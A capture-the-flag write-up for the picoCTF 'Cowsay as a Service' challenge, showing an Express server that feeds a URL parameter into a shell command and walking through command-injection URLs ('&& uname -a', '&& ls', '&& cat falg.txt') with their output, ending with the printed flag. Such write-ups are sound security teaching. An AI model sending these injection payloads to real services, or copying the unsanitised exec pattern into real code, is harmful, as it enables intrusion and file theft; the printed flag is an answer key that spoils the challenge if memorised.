 # Hey there


In this writeup, ill show how to exploit a vulnerable web service called CaaS (Cowsay as a Service) found in [PicoCTF practice](https://play.picoctf.org/practice/challenge/202).
## Challenge Overview

I am provided with two pieces of information:

1. The server-side code for the endpoint
2. The home page

Let's start by examining each of these in detail.

### Server-side Code


```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

This code takes a message as a parameter and passes it to the `cowsay` program.

### Home Page

The home page gives us an idea of how the service is supposed to be used:

![CaaS Home Page](https://github.com/user-attachments/assets/ad09898b-cd7e-4a5e-a267-843d6456655e)

## Vulnerability Analysis

The vulnerability in this application lies in this line of code:

```javascript
exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
```

This line takes the user's input (`req.params.message`) and directly inserts it into a command that's executed on the server.
We can exploit this by doing a couple of things shown below.
## Exploitation

### Step 1: Confirming the Vulnerability

To confirm that we can indeed inject commands, let's try to run the `uname -a` command, which will give us information about the system. 
To do this, we put the cowsay input, and then `&&` with our desired command.

URL: `https://caas.mars.picoctf.net/cowsay/f && uname -a`

Result:
```
 ___
< f >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Linux main-98c85f565-m5pbn 5.11.0-1022-aws #23~20.04.1-Ubuntu SMP Mon Nov 15 14:03:19 UTC 2021 x86_64 GNU/Linux
```

This output confirms that we've successfully injected a command.

### Step 2: Exploring the File System

Now that we've confirmed the vulnerability, let's see what files are in the current directory:

URL: `https://caas.mars.picoctf.net/cowsay/f && ls`

Result:
```
 ___
< f >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

Interesting! We can see a file named `falg.txt`, which is likely a misspelling of "flag.txt". This is probably where our flag is stored.

### Step 3: Retrieving the Flag

Let's read the contents of `falg.txt`:

URL: `https://caas.mars.picoctf.net/cowsay/f && cat falg.txt`

Result:
```
 ___
< f >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

And we've successfully retrieved the flag.

## The Flag

The flag for this challenge is:
`picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`
Moral of the story, Don't do this for ASCII art.
Thanks for reading!
